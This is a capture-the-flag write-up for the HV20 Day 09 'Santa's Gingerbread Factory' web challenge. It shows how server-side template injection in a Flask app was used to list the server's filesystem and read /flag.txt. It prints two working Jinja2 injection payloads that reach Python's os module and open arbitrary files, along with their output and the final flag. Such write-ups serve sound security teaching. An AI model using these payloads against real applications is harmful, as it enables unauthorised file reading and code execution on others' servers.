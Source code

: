 # Day 09 / HV20.09 Santa's Gingerbread Factory



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   #penetration-testing #web-security
* Level:  medium


### Introduction

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the `RESOURCES` section on top.


### Goal / Mission

Besides the gingerbread men, there are other goodies there. Let's see if you
can get the goodie, which is stored in /flag.txt.



## Solution

The website is a flask application and the topic is [flask injection].

[flask injection]{https://blog.nvisium.com/injecting-flask}

After a lot of trial and error that startet with a simple `{{ 4 * 4 }}` that
gets evaluated to `16`. The solution was found with

1. A file listing injection:
   
   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').listdir('.')}}

   Output: 
    -------------------------------
   ( Hello, mighty ['bin', 'boot', )
   ( 'dev', 'etc', 'home', 'lib',  )
   ( 'lib64', 'media', 'mnt',      )
   ( 'opt', 'proc', 'root', 'run', )
   ( 'sbin', 'srv', 'sys', 'tmp',  )
   ( 'usr', 'var', '.dockerenv',   )
   ( 'flag.txt']                   )
    -------------------------------
   ```

2. And the final injection to extract the flag:

   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__['open'](''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').path.join('.','flag.txt')).read()}}

   Output:
    --------------------------------
   ( Hello, mighty HV20{SST1_N0t_0N )
   ( LY_H1Ts_UB3R!!!}               )
    --------------------------------
   ```

--------------------------------------------------------------------------------

Flag: `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

